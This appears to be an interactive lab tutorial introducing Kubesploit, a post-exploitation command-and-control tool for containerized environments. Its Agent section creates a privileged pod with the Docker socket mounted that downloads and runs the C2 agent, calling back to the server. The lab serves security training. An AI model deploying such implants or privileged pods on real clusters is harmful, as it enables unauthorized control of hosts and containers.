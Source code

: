 Here we will see the basic settings of Kubesploit.

## Basics of Kubesploit

<p align="left">
  <img src="https://github.com/cyberark/kubesploit/blob/assets/1.5x/kubesploit@1.5x-100.jpg?raw=true" width="200" height="200">
</p>



Kubesploit is a cross-platform post-exploitation HTTP/2 Command & Control server and agent written in Golang, focused on containerized environments.  
More information can be found here:  
https://github.com/cyberark/kubesploit  


#### Server

	
The server is located in the `controlplane` with a configuration file `config.yaml`.    
The server uses this file to create a listener to a given protocol, interface and port.   
The server IP that should be inside the Interface is `echo $HOST_IP`{{execute}}.  

Verify that the `config.yaml` file contains the server IP address: `cat config.yaml`{{execute T1}}

Start the server `./kubesploitServer-Linux-x64`{{execute T1}}.    
To view the menu, run `help`{{execute}}. To see the list of modules, run `use module <TAB>`.  
*You can use the `TAB` in any place to see the list commands.  


#### Agent

Let's `Open`{{execute T3}} a new terminal ("Terminal 3") on the controlplane (upper terminal) and start this vulnerable container:  
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: priv-container
spec:
  containers:
  - name: priv-container
    image: ubuntu
    command: [ "sh", "-c", "apt update && apt install wget -y && wget https://github.com/cyberark/kubesploit/releases/download/v0.1.0/kubesploitAgent-Linux-x64_katacoda && chmod +x kubesploitAgent-Linux-x64_katacoda && ./kubesploitAgent-Linux-x64_katacoda -url https://$HOST_IP:443 -psk kubesploit & sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: docker-sock
      mountPath: /var/run/docker.sock
  volumes:
  - name: docker-sock
    hostPath:
      path: /var/run/docker.sock
EOF```{{execute T2}}  



Go to the master's "Terminal Host 1" and check if a new connection was received with the message "New authenticated agent checkin..".  
Once you see it, run `agent list`{{execute T1}} to see the new connection details.  


